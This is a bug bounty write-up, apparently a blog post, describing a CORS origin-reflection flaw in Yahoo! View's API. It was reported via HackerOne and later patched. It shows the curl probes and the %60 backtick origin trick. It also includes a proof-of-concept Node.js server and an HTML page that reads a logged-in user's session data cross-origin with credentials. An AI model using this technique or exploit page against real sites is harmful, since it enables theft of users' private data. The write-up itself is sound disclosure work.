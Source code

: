 ```yaml
---
layout: post
title: "Tricky CORS Bypass in Yahoo! View"
author: Corben Leo
---
```

Recently, HackerOne hosted their second Hack The World competition. During this time I decided to take a look at Yahoo's bug bounty program because I have heard good things about them and also due to the fact that their scope is pretty big. After finding a few issues in my.yahoo.com and getting paid for those, I decided I was going to test <a href="https://view.yahoo.com" rel="noopener noreferrer" style="color:#DC0739;">Yahoo! View</a><br><br>
I decided to browse a bit on <a href="https://view.yahoo.com" rel="noopener noreferrer" style="color:#DC0739;">https://view.yahoo.com</a> and look at what requests were being made. After about 2 minutes of clicking literally everything I could click and submitting as many forms as I could, I decided to look through everything Burp Suite logged.<br><br>
I saw that the applicaiton  making API calls to <a href="https://api.view.yahoo.com" rel="noopener noreferrer" style="color:#DC0739;">https://api.view.yahoo.com</a> and thanks to Burp Suite's passive monitoring, I also noticed that the application implemented a cross-origin resource sharing (CORS) policy.<br><br>According to the <a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS">MDN Web Docs</a>, CORS "is a mechanism that uses additional HTTP headers to let a user agent gain permission to access selected resources from a server on a different origin (domain) than the site currently in use."<br><br>
Since browsers enforce a Same-Origin Policy, which means that it only accepts ajax requests from accessing data from the same domain, Cross-Origin Resource Sharing allows sharing data with other sites that can be specified. <br><br>The initial request I saw in Burp's history was:
```bash
GET /api/session/preferences HTTP/1.1
Host: api.view.yahoo.com
------- snip -------
origin: https://view.yahoo.com
```
and the server's response was:
```bash
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
------- snip -------
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: https://view.yahoo.com
```
Since the server was reflecting the origin and with `Access-Control-Allow-Credentials)` set to `true`, if I could get the origin to be allowed, then I could steal data from the API.<br><br>
First, I tried just sending a the origin `sxcurity.pro`:
```bash
curl -vv 'http://api.view.yahoo.com/api/session/preferences' -H 'origin: https://sxcurity.pro'
```
The server responded without the Allow-Origin and Allow-Credentials.
<br><br>
Next, I tried sending `view.sxcurity.pro` as the origin:
```bash
curl -vv 'http://api.view.yahoo.com/api/session/preferences' -H 'origin: https://view.sxcurity.pro'
```
Still nothing.<br><br>
An idea came to mind, what if I tried `view.yahoo.com.sxcurity.pro`?
```bash
curl -vv 'http://api.view.yahoo.com/api/session/preferences' -H 'origin: https://view.yahoo.com.sxcurity.pro'
```
Voila! Still **DID NOT** respond with the Allow-Origin or ACAC. I had one more payload in mind: `view.yahoo.comsxcurity.pro`. I sent it and to my dismay, nothing had changed.
<br><br><br>I was about to give up when I came up with the idea to send *two domains* in the origin header:
```bash
curl -vv 'http://api.view.yahoo.com/api/session/preferences' -H 'origin: https://view.yahoo.com sxcurity.pro'
```
To my surprise the server responded with:
```bash
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
------- snip -------
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: https://view.yahoo.com sxcurity.pro
```
I was intrigued and was trying to come up with a way that I could make this a valid domain name so I could exploit it. I tried adding some characters to replace the space between the two domains to see what the server responded with!
```bash
curl -vv 'http://api.view.yahoo.com/api/session/preferences' -H 'origin: https://view.yahoo.com%sxcurity.pro'
```
Response:
```bash
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
------- snip -------
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: https://view.yahoo.com%sxcurity.pro
```
This still wasn't exploitable because it wasn't valid.<br><br>
After a bit of asking around, <a href="https://twitter.com/mattaustin">Matt Austin</a> linked me to one of his <a href="https://hackerone.com/reports/255991">HackerOne Reports</a> to Brave Software. <br><br>
I decided to try using a **URL-Encoded backtick** / %60 since I saw it would be a valid subdomain (from his report) and I already saw that the origin was reflected when there was a percent sign.
<br>I sent:
```bash
curl -vv 'http://api.view.yahoo.com/api/session/preferences' -H 'origin: https://view.yahoo.com%60cdl.sxcurity.pro'
```
The server's response:
```bash
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: http://view.yahoo.com%60cdl.sxcurity.pro
```
Yes, it worked! I set up a wildcard on one of my domains in Route53. I opened up Firefox and visited http://view.yahoo.com%60cdl.hack-r.be and it didn't load! Yay, more problems. I tried in Chrome, IE, & Edge and it didn't work in them either. I got to a Mac and tried it in **Safari** and it finally worked!! HOWEVER, Apache decided it didn't like the request and to keep throwing a server error.<br><br>![problems](/images/problems-meme.jpg "Problems")<br><br>After playing around I decided to just create a simple server in NodeJS to serve my exploit page.<br>
<br>
Contents of **server.js**:
```javascript
const http = require('http')
const port = 6299
const fs = require("fs");


const requestHandler = (request, response) => {
  fs.readFile("index.html", function(err, data){
  response.writeHead(200, {'Content-Type': 'text/html'});
  response.write(data);
  response.end();
});
}

const server = http.createServer(requestHandler)

server.listen(port, (err) => {
  if (err) {
    return console.log('[+] ruh roh! something went wrong :(', err)
  }

  console.log(`[+] server is listening on port ${port}`)
})
```
and contents of **index.html**:
```html
<!DOCTYPE html>
<html>
<head><title>CORS</title></head>
<body>
<center>
<h2>Yahoo CORs Exploit</h2>

<textarea rows="10" cols="60" id="pwnz">
</textarea><br>
<button type="button" onclick="cors()">Exploit</button>
</div>

<script>
function cors() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      document.getElementById("pwnz").innerHTML = this.responseText;
    }
  };
  xhttp.open("GET", "http://api.view.yahoo.com/api/session/preferences", true);
  xhttp.withCredentials = true;
  xhttp.send();
}
</script>
```
I ran it and tried loading the page again in Safari and it loaded perfectly. I clicked the "Exploit" button and it retrieved the data from the vulnerable API! woot woot!
<br><br>Here's the proof of concept video:
<br>
<iframe width="640" height="360" src="https://www.youtube.com/embed/lg31RYYG-T4" frameborder="0" gesture="media" allowfullscreen></iframe>
<br>
<h2><u>Timeline</u></h2>
- (10/24/2017) Reported to Yahoo! via HackerOne
- (10/27/2017) Confirmed & awarded $100 on Triage
- (11/20/2017) Vulnerability Patched
- (12/1/2017) Awarded $400 bounty + a $100 bonus for a "great writeup and POC" (-Yahoo)  
<br><br>Although it was a low impact bug, it was definitely a learning experience and a fun challenge!<br><br>
Thanks for reading,<br><br>
**Corben Leo**
- <a class="link" href="https://twitter.com/hacker_"  target="_blank" rel="noopener noreferrer">https://twitter.com/hacker_</a>
- <a class="link" href="https://hackerone.com/cdl" target="_blank" rel="noopener noreferrer">https://hackerone.com/cdl</a>
- <a class="link" href="https://bugcrowd.com/c" target="_blank" rel="noopener noreferrer">https://bugcrowd.com/c</a>
- <a class="link" href="https://github.com/sxcurity"  target="_blank" rel="noopener noreferrer">https://github.com/sxcurity</a>

